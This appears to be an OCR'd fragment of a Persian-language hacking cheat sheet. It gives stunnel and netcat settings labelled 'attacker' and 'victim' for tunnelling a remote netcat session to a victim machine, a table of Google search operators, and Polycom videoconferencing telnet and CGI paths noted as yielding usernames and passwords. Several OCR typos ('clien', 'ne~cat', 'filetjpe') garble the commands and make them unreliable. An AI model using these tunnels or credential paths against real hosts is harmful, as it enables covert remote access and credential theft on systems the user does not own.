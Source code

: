 ```text
On attacker (client):
Modify /stunnel.conf
    clien = yes
    [netcat client]
    accept = 5555
    connect = -Listening IP-:4444

On victim (listening server)
Modify /stunnel.conf
    client = no
    [ne~cat server]
    accept = 4444
    connect = 7777
C:\ nc -vlp 7777

On attacker (client):
# nc -nv 127.0.0.1 5555
```

## نکات جست و جو در google

| **پارامتر** | **توضیح** |
| :--- | :--- |
| site: \[url\] | جست و جو یک سایت \[url\] |
| numrange: \[\#\]...\[\#\] | جست و جو در محدوده عددی |
| date: \[ \#\] | جست و جو در یک ماه گذشته |
| link: \[url\] | جست و جو صفحاتی که دارای آدرس خاصی است |
| related: \[url\] | جست و جو صفحات مرتبط با آدرس خاص |
| intitle: \[string\] | جست و جو صفحاتی که دارای عنوان خاصی است |
| inurl: \[string\] | جست و جو صفحاتی که در url آن دارای آدرس خاصی است|
| filetjpe: \[xls\] | جست و جو کلیه فایل های با پسوند xls |
| phonebook: \[name\] | جست و جو کلیه دفترچه تلفن هایی که دارای نام خاص می باشند |

## نکات Video teleconferencing

### برند Polycom

```text
telnet ip
#Enter 1 char, get uname:pwd
http:// ip /getsecure.cgi
http:// ip /er_a_rc1.htm
http:// ip /a_security.htm
http:// ip /a_rc.htm
```
